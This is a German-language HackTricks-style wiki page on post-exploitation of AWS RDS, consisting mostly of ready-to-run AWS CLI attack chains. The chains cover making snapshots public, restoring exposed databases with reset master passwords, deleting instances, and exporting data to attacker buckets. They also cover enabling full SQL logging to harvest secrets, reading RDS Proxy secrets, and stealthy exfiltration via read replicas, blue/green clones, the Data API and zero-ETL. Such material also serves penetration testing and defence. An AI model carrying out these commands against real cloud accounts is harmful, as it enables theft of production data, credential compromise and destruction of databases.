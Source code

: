# AWS - RDS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Für weitere Informationen siehe:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Wenn ein Angreifer über ausreichende Berechtigungen verfügt, kann er eine **DB öffentlich zugänglich** machen, indem er einen Snapshot der DB erstellt und anschließend eine öffentlich zugängliche DB aus diesem Snapshot wiederherstellt.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Ein Angreifer mit diesen Berechtigungen könnte **einen Snapshot einer DB erstellen** und ihn **öffentlich** **zugänglich** machen. Anschließend könnte er in seinem eigenen Konto einfach eine DB aus diesem Snapshot erstellen.

Wenn der Angreifer **nicht die `rds:CreateDBSnapshot`** hat, könnte er dennoch **andere** erstellte Snapshots **öffentlich** machen.
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

Ein Angreifer mit der Berechtigung `rds:DownloadDBLogFilePortion` kann **Portionen der log files einer RDS-Instance herunterladen**. Wenn sensible Daten oder Zugangsdaten versehentlich in den log files protokolliert werden, könnte der Angreifer diese Informationen nutzen, um seine Privilegien zu eskalieren oder unautorisierte Aktionen durchzuführen.
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
**Mögliche Auswirkungen**: Zugriff auf sensible Informationen oder unautorisierte Aktionen mithilfe von leaked credentials.

### `rds:DeleteDBInstance`

Ein Angreifer mit diesen Berechtigungen kann **DoS existing RDS instances**.
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
**Potentielle Auswirkungen**: Löschung vorhandener RDS instances und möglicher Datenverlust.

### `rds:StartExportTask`

> [!NOTE]
> TODO: Test

Ein attacker mit dieser Berechtigung kann **export an RDS instance snapshot to an S3 bucket**. Wenn der attacker Kontrolle über das Ziel S3 bucket hat, sind sensible Daten im exportierten snapshot potenziell zugänglich.
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
**Potential impact**: Zugriff auf sensible Daten in dem exportierten Snapshot.

### Cross-Region-Replikation automatisierter Backups für heimliche Wiederherstellung (`rds:StartDBInstanceAutomatedBackupsReplication`)

Missbrauche die Cross-Region-Replikation automatisierter Backups, um die automatisierten Backups einer RDS-Instanz stillschweigend in eine andere AWS-Region zu duplizieren und dort wiederherzustellen. Der Angreifer kann die wiederhergestellte DB dann öffentlich zugänglich machen und das Master-Passwort zurücksetzen, um außerhalb des normalen Pfades auf Daten in einer Region zuzugreifen, die Verteidiger möglicherweise nicht überwachen.

Permissions needed (minimum):
- `rds:StartDBInstanceAutomatedBackupsReplication` in der Ziel-Region
- `rds:DescribeDBInstanceAutomatedBackups` in der Ziel-Region
- `rds:RestoreDBInstanceToPointInTime` in der Ziel-Region
- `rds:ModifyDBInstance` in der Ziel-Region
- `rds:StopDBInstanceAutomatedBackupsReplication` (optionale Bereinigung)
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (um die wiederhergestellte DB öffentlich zugänglich zu machen)

Impact: Persistenz und Datenexfiltration, indem eine Kopie von Produktionsdaten in einer anderen Region wiederhergestellt und diese mit vom Angreifer kontrollierten Zugangsdaten öffentlich zugänglich gemacht wird.

<details>
<summary>End-to-end CLI (Platzhalter ersetzen)</summary>
```bash
# 1) Recon (SOURCE region A)
aws rds describe-db-instances \
--region <SOURCE_REGION> \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,DBInstanceStatus,PreferredBackupWindow]' \
--output table

# 2) Start cross-Region automated backups replication (run in DEST region B)
aws rds start-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN> \
--source-region <SOURCE_REGION> \
--backup-retention-period 7

# 3) Wait for replication to be ready in DEST
aws rds describe-db-instance-automated-backups \
--region <DEST_REGION> \
--query 'DBInstanceAutomatedBackups[*].[DBInstanceAutomatedBackupsArn,DBInstanceIdentifier,Status]' \
--output table
# Proceed when Status is "replicating" or "active" and note the DBInstanceAutomatedBackupsArn

# 4) Restore to latest restorable time in DEST
aws rds restore-db-instance-to-point-in-time \
--region <DEST_REGION> \
--source-db-instance-automated-backups-arn <AUTO_BACKUP_ARN> \
--target-db-instance-identifier <TARGET_DB_ID> \
--use-latest-restorable-time \
--db-instance-class db.t3.micro
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5) Make public and reset credentials in DEST
# 5a) Create/choose an open SG permitting TCP/3306 (adjust engine/port as needed)
OPEN_SG_ID=$(aws ec2 create-security-group --region <DEST_REGION> \
--group-name open-rds-<RAND> --description open --vpc-id <DEST_VPC_ID> \
--query GroupId --output text)
aws ec2 authorize-security-group-ingress --region <DEST_REGION> \
--group-id "$OPEN_SG_ID" \
--ip-permissions IpProtocol=tcp,FromPort=3306,ToPort=3306,IpRanges='[{CidrIp=0.0.0.0/0}]'

# 5b) Publicly expose restored DB and attach the SG
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids "$OPEN_SG_ID" \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 5c) Reset the master password
aws rds modify-db-instance --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--master-user-password '<NEW_STRONG_PASSWORD>' \
--apply-immediately
aws rds wait db-instance-available --region <DEST_REGION> --db-instance-identifier <TARGET_DB_ID>

# 6) Connect to <TARGET_DB_ID> endpoint and validate data (example for MySQL)
ENDPOINT=$(aws rds describe-db-instances --region <DEST_REGION> \
--db-instance-identifier <TARGET_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text)
mysql -h "$ENDPOINT" -u <MASTER_USERNAME> -p'<NEW_STRONG_PASSWORD>' -e 'SHOW DATABASES;'

# 7) Optional: stop replication
aws rds stop-db-instance-automated-backups-replication \
--region <DEST_REGION> \
--source-db-instance-arn <SOURCE_DB_INSTANCE_ARN>
```
</details>


### Vollständiges SQL-Logging über DB-Parametergruppen aktivieren und über RDS-Log-APIs exfiltrieren

Missbrauche `rds:ModifyDBParameterGroup` zusammen mit RDS-Log-Download-APIs, um alle von Anwendungen ausgeführten SQL-Anweisungen zu erfassen (keine DB-Engine-Anmeldedaten erforderlich). Aktiviere das Engine-SQL-Logging und lade die Logdateien via `rds:DescribeDBLogFiles` und `rds:DownloadDBLogFilePortion` (oder die REST-API `downloadCompleteLogFile`) herunter. Nützlich, um Abfragen zu sammeln, die Geheimnisse/PII/JWTs enthalten können.

Benötigte Berechtigungen (mindestens):
- `rds:DescribeDBInstances`, `rds:DescribeDBLogFiles`, `rds:DownloadDBLogFilePortion`
- `rds:CreateDBParameterGroup`, `rds:ModifyDBParameterGroup`
- `rds:ModifyDBInstance` (nur zum Anhängen einer benutzerdefinierten Parametergruppe, falls die Instanz die Standardgruppe verwendet)
- `rds:RebootDBInstance` (für Parameter, die einen Reboot erfordern, z. B. PostgreSQL)

Schritte
1) Recon: Ziel und aktuelle Parametergruppe
```bash
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBParameterGroups[0].DBParameterGroupName]' \
--output table
```
2) Stelle sicher, dass eine benutzerdefinierte DB-Parametergruppe angehängt ist (die Standardgruppe kann nicht bearbeitet werden)
- Wenn die Instanz bereits eine benutzerdefinierte Gruppe verwendet, verwende deren Namen im nächsten Schritt.
- Andernfalls erstelle und hänge eine an, die zur Engine-Familie passt:
```bash
# Example for PostgreSQL 16
aws rds create-db-parameter-group \
--db-parameter-group-name ht-logs-pg \
--db-parameter-group-family postgres16 \
--description "HT logging"

aws rds modify-db-instance \
--db-instance-identifier <DB> \
--db-parameter-group-name ht-logs-pg \
--apply-immediately
# Wait until status becomes "available"
```
3) Detailliertes SQL-Logging aktivieren
- MySQL-Engines (sofort / kein Neustart):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=1,ApplyMethod=immediate" \
"ParameterName=log_output,ParameterValue=FILE,ApplyMethod=immediate"
# Optional extras:
#   "ParameterName=slow_query_log,ParameterValue=1,ApplyMethod=immediate" \
#   "ParameterName=long_query_time,ParameterValue=0,ApplyMethod=immediate"
```
- PostgreSQL engines (Neustart erforderlich):
```bash
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=all,ApplyMethod=pending-reboot"
# Optional to log duration for every statement:
#   "ParameterName=log_min_duration_statement,ParameterValue=0,ApplyMethod=pending-reboot"

# Reboot if any parameter is pending-reboot
aws rds reboot-db-instance --db-instance-identifier <DB>
```
4) Die Workload laufen lassen (oder Abfragen generieren). SQL-Anweisungen werden in die Engine-Dateiprotokolle geschrieben
- MySQL: `general/mysql-general.log`
- PostgreSQL: `postgresql.log`

5) Logs entdecken und herunterladen (keine DB-Zugangsdaten erforderlich)
```bash
aws rds describe-db-log-files --db-instance-identifier <DB>

# Pull full file via portions (iterate until AdditionalDataPending=false). For small logs a single call is enough:
aws rds download-db-log-file-portion \
--db-instance-identifier <DB> \
--log-file-name general/mysql-general.log \
--starting-token 0 \
--output text > dump.log
```
6) Offline nach sensiblen Daten analysieren
```bash
grep -Ei "password=|aws_access_key_id|secret|authorization:|bearer" dump.log | sed 's/\(aws_access_key_id=\)[A-Z0-9]*/\1AKIA.../; s/\(secret=\).*/\1REDACTED/; s/\(Bearer \).*/\1REDACTED/' | head
```
Beweismaterial (geschwärzt):
```text
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('user=alice password=Sup3rS3cret!')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('authorization: Bearer REDACTED')
2025-10-06T..Z    13 Query  INSERT INTO t(note) VALUES ('aws_access_key_id=AKIA... secret=REDACTED')
```
Bereinigung
- Setze Parameter auf Standardwerte zurück und starte neu, falls erforderlich:
```bash
# MySQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=general_log,ParameterValue=0,ApplyMethod=immediate"

# PostgreSQL
aws rds modify-db-parameter-group \
--db-parameter-group-name <PGNAME> \
--parameters \
"ParameterName=log_statement,ParameterValue=none,ApplyMethod=pending-reboot"
# Reboot if pending-reboot
```
Auswirkung: Post-exploitation Datenzugriff durch Erfassen aller application SQL statements über AWS APIs (keine DB creds), möglicherweise leaking von secrets, JWTs und PII.

### `rds:CreateDBInstanceReadReplica`, `rds:ModifyDBInstance`

RDS read replicas missbrauchen, um out-of-band read access zu erhalten, ohne die primary instance credentials zu berühren. Ein Angreifer kann von einer Produktionsinstanz eine read replica erstellen, das Master-Passwort der Replica zurücksetzen (dies ändert die Primary nicht) und optional die Replica öffentlich zugänglich machen, um Daten zu exfiltrieren.

Erforderliche Berechtigungen (Minimum):
- `rds:DescribeDBInstances`
- `rds:CreateDBInstanceReadReplica`
- `rds:ModifyDBInstance`
- `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress` (if exposing publicly)

Auswirkung: Read-only Zugriff auf Produktionsdaten über eine Replica mit vom Angreifer kontrollierten credentials; geringere Erkennungswahrscheinlichkeit, da die Primary unberührt bleibt und die Replikation fortläuft.
```bash
# 1) Recon: find non-Aurora sources with backups enabled
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBInstanceArn,DBSubnetGroup.DBSubnetGroupName,VpcSecurityGroups[0].VpcSecurityGroupId,PubliclyAccessible]' \
--output table

# 2) Create a permissive SG (replace <VPC_ID> and <YOUR_IP/32>)
aws ec2 create-security-group --group-name rds-repl-exfil --description 'RDS replica exfil' --vpc-id <VPC_ID> --query GroupId --output text
aws ec2 authorize-security-group-ingress --group-id <SGID> --ip-permissions '[{"IpProtocol":"tcp","FromPort":3306,"ToPort":3306,"IpRanges":[{"CidrIp":"<YOUR_IP/32>","Description":"tester"}]}]'

# 3) Create the read replica (optionally public)
aws rds create-db-instance-read-replica \
--db-instance-identifier <REPL_ID> \
--source-db-instance-identifier <SOURCE_DB> \
--db-instance-class db.t3.medium \
--publicly-accessible \
--vpc-security-group-ids <SGID>
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 4) Reset ONLY the replica master password (primary unchanged)
aws rds modify-db-instance --db-instance-identifier <REPL_ID> --master-user-password 'NewStr0ng!Passw0rd' --apply-immediately
aws rds wait db-instance-available --db-instance-identifier <REPL_ID>

# 5) Connect and dump (use the SOURCE master username + NEW password)
REPL_ENDPOINT=$(aws rds describe-db-instances --db-instance-identifier <REPL_ID> --query 'DBInstances[0].Endpoint.Address' --output text)
# e.g., with mysql client:  mysql -h "$REPL_ENDPOINT" -u <MASTER_USERNAME> -p'NewStr0ng!Passw0rd' -e 'SHOW DATABASES; SELECT @@read_only, CURRENT_USER();'

# Optional: promote for persistence
# aws rds promote-read-replica --db-instance-identifier <REPL_ID>
```
Beispielbelege (MySQL):
- Replica-DB-Status: `available`, Lese-Replikation: `replicating`
- Erfolgreiche Verbindung mit neuem Passwort und `@@read_only=1`, die schreibgeschützten Zugriff auf die Replica bestätigt.

### `rds:CreateBlueGreenDeployment`, `rds:ModifyDBInstance`

RDS Blue/Green missbrauchen, um eine Produktions-DB in eine kontinuierlich replizierte, schreibgeschützte Green-Umgebung zu klonen. Anschließend die Green-Master-Zugangsdaten zurücksetzen, um auf die Daten zuzugreifen, ohne die Blue (prod)-Instanz anzufassen. Das ist unauffälliger als die Freigabe von Snapshots und umgeht oft Überwachung, die sich nur auf die Quelle konzentriert.
```bash
# 1) Recon – find eligible source (non‑Aurora MySQL/PostgreSQL in the same account)
aws rds describe-db-instances \
--query 'DBInstances[*].[DBInstanceIdentifier,DBInstanceArn,Engine,EngineVersion,DBSubnetGroup.DBSubnetGroupName,PubliclyAccessible]'

# Ensure: automated backups enabled on source (BackupRetentionPeriod > 0), no RDS Proxy, supported engine/version

# 2) Create Blue/Green deployment (replicates blue->green continuously)
aws rds create-blue-green-deployment \
--blue-green-deployment-name ht-bgd-attack \
--source <BLUE_DB_ARN> \
# Optional to upgrade: --target-engine-version <same-or-higher-compatible>

# Wait until deployment Status becomes AVAILABLE, then note the green DB id
aws rds describe-blue-green-deployments \
--blue-green-deployment-identifier <BGD_ID> \
--query 'BlueGreenDeployments[0].SwitchoverDetails[0].TargetMember'

# Typical green id: <blue>-green-XXXX

# 3) Reset the green master password (does not affect blue)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--master-user-password 'Gr33n!Exfil#1' \
--apply-immediately

# Optional: expose the green for direct access (attach an SG that allows the DB port)
aws rds modify-db-instance \
--db-instance-identifier <GREEN_DB_ID> \
--publicly-accessible \
--vpc-security-group-ids <SG_ALLOWING_DB_PORT> \
--apply-immediately

# 4) Connect to the green endpoint and query/exfiltrate (green is read‑only)
aws rds describe-db-instances \
--db-instance-identifier <GREEN_DB_ID> \
--query 'DBInstances[0].Endpoint.Address' --output text

# Then connect with the master username and the new password and run SELECT/dumps
# e.g. MySQL: mysql -h <endpoint> -u <master_user> -p'Gr33n!Exfil#1'

# 5) Cleanup – remove blue/green and the green resources
aws rds delete-blue-green-deployment \
--blue-green-deployment-identifier <BGD_ID> \
--delete-target true
```
Impact: Nur-Lese, aber voller Datenzugriff auf eine nahezu Echtzeit-Kopie der Produktion, ohne die Produktionsinstanz zu verändern. Nützlich für unauffällige Datenausleitung und Offline-Analyse.


### Out-of-band SQL via RDS Data API by enabling HTTP endpoint + resetting master password

Missbrauche Aurora, um das RDS Data API HTTP endpoint auf einem Ziel-Cluster zu aktivieren, das master password auf einen von dir kontrollierten Wert zurückzusetzen und SQL über HTTPS auszuführen (kein VPC-Netzwerkpfad erforderlich). Funktioniert auf Aurora-Engines, die die Data API/EnableHttpEndpoint unterstützen (z. B. Aurora MySQL 8.0 provisioned; einige Aurora PostgreSQL/MySQL-Versionen).

Permissions (minimum):
- rds:DescribeDBClusters, rds:ModifyDBCluster (or rds:EnableHttpEndpoint)
- secretsmanager:CreateSecret
- rds-data:ExecuteStatement (and rds-data:BatchExecuteStatement if used)

Impact: Umgehung von Netzwerksegmentierung und Exfiltration von Daten über AWS APIs ohne direkte VPC-Konnektivität zur DB.

<details>
<summary>End-to-end CLI (Aurora MySQL Beispiel)</summary>
```bash
# 1) Identify target cluster ARN
REGION=us-east-1
CLUSTER_ID=<target-cluster-id>
CLUSTER_ARN=$(aws rds describe-db-clusters --region $REGION \
--db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].DBClusterArn' --output text)

# 2) Enable Data API HTTP endpoint on the cluster
# Either of the following (depending on API/engine support):
aws rds enable-http-endpoint --region $REGION --resource-arn "$CLUSTER_ARN"
# or
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--enable-http-endpoint --apply-immediately

# Wait until HttpEndpointEnabled is True
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].HttpEndpointEnabled' --output text

# 3) Reset master password to attacker-controlled value
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--master-user-password 'Sup3rStr0ng!1' --apply-immediately
# Wait until pending password change is applied
while :; do
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
P=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID \
--query 'DBClusters[0].PendingModifiedValues.MasterUserPassword' --output text)
[[ "$P" == "None" || "$P" == "null" ]] && break
sleep 10
done

# 4) Create a Secrets Manager secret for Data API auth
SECRET_ARN=$(aws secretsmanager create-secret --region $REGION --name rdsdata/demo-$CLUSTER_ID \
--secret-string '{"username":"admin","password":"Sup3rStr0ng!1"}' \
--query ARN --output text)

# 5) Prove out-of-band SQL via HTTPS using rds-data
# (Example with Aurora MySQL; for PostgreSQL, adjust SQL and username accordingly)
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database mysql --sql "create database if not exists demo;"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "create table if not exists pii(note text);"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "insert into pii(note) values ('token=SECRET_JWT');"
aws rds-data execute-statement --region $REGION --resource-arn "$CLUSTER_ARN" \
--secret-arn "$SECRET_ARN" --database demo --sql "select current_user(), now(), (select count(*) from pii) as row_count;" \
--format-records-as JSON
```
</details>

Hinweise:
- If multi-statement SQL is rejected by rds-data, issue separate execute-statement calls.
- For engines where modify-db-cluster --enable-http-endpoint has no effect, use rds enable-http-endpoint --resource-arn.
- Ensure the engine/version actually supports the Data API; otherwise HttpEndpointEnabled will remain False.


### DB-Anmeldeinformationen via RDS Proxy auth secrets erlangen (`rds:DescribeDBProxies` + `secretsmanager:GetSecretValue`)

Missbrauche die RDS Proxy-Konfiguration, um das Secrets Manager secret zu finden, das für die Backend-Authentifizierung verwendet wird, und lese dieses secret aus, um Datenbank-Zugangsdaten zu erhalten. Viele Umgebungen gewähren weitreichende `secretsmanager:GetSecretValue`-Berechtigungen, was dies zu einem wenig aufwendigen Pivot zu DB-Zugangsdaten macht. Falls das secret eine CMK verwendet, können falsch konfigurierte KMS-Rechte auch `kms:Decrypt` erlauben.

Benötigte Berechtigungen (mindestens):
- `rds:DescribeDBProxies`
- `secretsmanager:GetSecretValue` on the referenced SecretArn
- Optional when the secret uses a CMK: `kms:Decrypt` on that key

Impact: Immediate disclosure of DB username/password configured on the proxy; enables direct DB access or further lateral movement.

Schritte
```bash
# 1) Enumerate proxies and extract the SecretArn used for auth
aws rds describe-db-proxies \
--query DBProxies[*].[DBProxyName,Auth[0].AuthScheme,Auth[0].SecretArn] \
--output table

# 2) Read the secret value (common over-permission)
aws secretsmanager get-secret-value \
--secret-id <SecretArnFromProxy> \
--query SecretString --output text
# Example output: {"username":"admin","password":"S3cr3t!"}
```
Lab (minimal zur Reproduktion)
```bash
REGION=us-east-1
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SECRET_ARN=$(aws secretsmanager create-secret \
--region $REGION --name rds/proxy/aurora-demo \
--secret-string username:admin \
--query ARN --output text)
aws iam create-role --role-name rds-proxy-secret-role \
--assume-role-policy-document Version:2012-10-17
aws iam attach-role-policy --role-name rds-proxy-secret-role \
--policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws rds create-db-proxy --db-proxy-name p0 --engine-family MYSQL \
--auth [AuthScheme:SECRETS] \
--role-arn arn:aws:iam::$ACCOUNT_ID:role/rds-proxy-secret-role \
--vpc-subnet-ids $(aws ec2 describe-subnets --filters Name=default-for-az,Values=true --query Subnets[].SubnetId --output text)
aws rds wait db-proxy-available --db-proxy-name p0
# Now run the enumeration + secret read from the Steps above
```
Aufräumen (Labor)
```bash
aws rds delete-db-proxy --db-proxy-name p0
aws iam detach-role-policy --role-name rds-proxy-secret-role --policy-arn arn:aws:iam::aws:policy/SecretsManagerReadWrite
aws iam delete-role --role-name rds-proxy-secret-role
aws secretsmanager delete-secret --secret-id rds/proxy/aurora-demo --force-delete-without-recovery
```
### Stealthy continuous exfiltration via Aurora zero‑ETL to Amazon Redshift (rds:CreateIntegration)

Missbrauche die Aurora PostgreSQL zero‑ETL-Integration, um Produktionsdaten kontinuierlich in einen Redshift Serverless Namespace zu replizieren, den du kontrollierst. Mit einer zu großzügigen Redshift-Ressourcenrichtlinie, die CreateInboundIntegration/AuthorizeInboundIntegration für eine bestimmte Aurora cluster ARN autorisiert, kann ein Angreifer eine nahezu Echtzeit-Datenkopie herstellen, ohne DB creds, snapshots oder Netzwerkzugriff.

Permissions needed (minimum):
- `rds:CreateIntegration`, `rds:DescribeIntegrations`, `rds:DeleteIntegration`
- `redshift:PutResourcePolicy`, `redshift:DescribeInboundIntegrations`, `redshift:DescribeIntegrations`
- `redshift-data:ExecuteStatement/GetStatementResult/ListDatabases` (zum Abfragen)
- `rds-data:ExecuteStatement` (optional; um bei Bedarf Daten einzuspielen)

Tested on: us-east-1, Aurora PostgreSQL 16.4 (Serverless v2), Redshift Serverless.

<details>
<summary>1) Erstelle Redshift Serverless namespace + workgroup</summary>
```bash
REGION=us-east-1
RS_NS_ARN=$(aws redshift-serverless create-namespace --region $REGION --namespace-name ztl-ns \
--admin-username adminuser --admin-user-password 'AdminPwd-1!' \
--query namespace.namespaceArn --output text)
RS_WG_ARN=$(aws redshift-serverless create-workgroup --region $REGION --workgroup-name ztl-wg \
--namespace-name ztl-ns --base-capacity 8 --publicly-accessible \
--query workgroup.workgroupArn --output text)
# Wait until AVAILABLE, then enable case sensitivity (required for PostgreSQL)
aws redshift-serverless update-workgroup --region $REGION --workgroup-name ztl-wg \
--config-parameters parameterKey=enable_case_sensitive_identifier,parameterValue=true
```
</details>

<details>
<summary>2) Redshift-Ressourcenrichtlinie konfigurieren, um die Aurora-Quelle zuzulassen</summary>
```bash
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SRC_ARN=<AURORA_CLUSTER_ARN>
cat > rs-rp.json <<JSON
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AuthorizeInboundByRedshiftService",
"Effect": "Allow",
"Principal": {"Service": "redshift.amazonaws.com"},
"Action": "redshift:AuthorizeInboundIntegration",
"Resource": "$RS_NS_ARN",
"Condition": {"StringEquals": {"aws:SourceArn": "$SRC_ARN"}}
},
{
"Sid": "AllowCreateInboundFromAccount",
"Effect": "Allow",
"Principal": {"AWS": "arn:aws:iam::$ACCOUNT_ID:root"},
"Action": "redshift:CreateInboundIntegration",
"Resource": "$RS_NS_ARN"
}
]
}
JSON
aws redshift put-resource-policy --region $REGION --resource-arn "$RS_NS_ARN" --policy file://rs-rp.json
```
</details>

<details>
<summary>3) Aurora PostgreSQL-Cluster erstellen (Data API und logische Replikation aktivieren)</summary>
```bash
CLUSTER_ID=aurora-ztl
aws rds create-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--engine aurora-postgresql --engine-version 16.4 \
--master-username postgres --master-user-password 'InitPwd-1!' \
--enable-http-endpoint --no-deletion-protection --backup-retention-period 1
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
# Serverless v2 instance
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--serverless-v2-scaling-configuration MinCapacity=0.5,MaxCapacity=1 --apply-immediately
aws rds create-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1 \
--db-instance-class db.serverless --engine aurora-postgresql --db-cluster-identifier $CLUSTER_ID
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
# Cluster parameter group for zero‑ETL
aws rds create-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg \
--db-parameter-group-family aurora-postgresql16 --description "APG16 zero-ETL params"
aws rds modify-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg --parameters \
ParameterName=rds.logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.enhanced_logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_backup,ParameterValue=0,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_globaldb,ParameterValue=0,ApplyMethod=pending-reboot
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--db-cluster-parameter-group-name apg16-ztl-zerodg --apply-immediately
aws rds reboot-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
SRC_ARN=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID --query 'DBClusters[0].DBClusterArn' --output text)
```
</details>

<details>
<summary>4) Erstelle die zero‑ETL-Integration von RDS</summary>
```bash
# Include all tables in the default 'postgres' database
aws rds create-integration --region $REGION --source-arn "$SRC_ARN" \
--target-arn "$RS_NS_ARN" --integration-name ztl-demo \
--data-filter 'include: postgres.*.*'
# Redshift inbound integration should become ACTIVE
aws redshift describe-inbound-integrations --region $REGION --target-arn "$RS_NS_ARN"
```
</details>

<details>
<summary>5) Replizierte Daten in Redshift materialisieren und abfragen</summary>
```bash
# Create a Redshift database from the inbound integration (use integration_id from SVV_INTEGRATION)
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "select integration_id from svv_integration"  # take the GUID value
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "create database ztl_db from integration '<integration_id>' database postgres"
# List tables replicated
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database ztl_db \
--sql "select table_schema,table_name from information_schema.tables where table_schema not in ('pg_catalog','information_schema') order by 1,2 limit 20;"
```
</details>

Beobachtete Hinweise im Test:
- redshift describe-inbound-integrations: Status ACTIVE for Integration arn:...377a462b-...
